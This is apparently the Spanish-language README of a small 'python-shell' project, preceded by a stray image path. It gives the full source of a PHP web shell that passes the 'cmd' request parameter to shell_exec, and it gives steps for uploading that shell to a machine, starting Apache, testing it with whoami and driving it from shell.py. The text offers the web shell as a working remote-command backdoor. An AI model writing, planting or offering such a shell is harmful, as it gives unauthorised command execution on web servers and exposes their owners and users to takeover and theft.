# python-shell
Python Shell

 Modo de uso:
 1 - Subir en maquina un archivo de php: Ejemplo (shell.php) 
 <?php
  echo shell_exec($_REQUEST['cmd']);
?>

2 - Habilitar apache2:
sudo service apache2 start

3 - localhost/shell.php?cmd=whoami (Ejemplo)

4 - Ejecutar pyhton3 shell.py
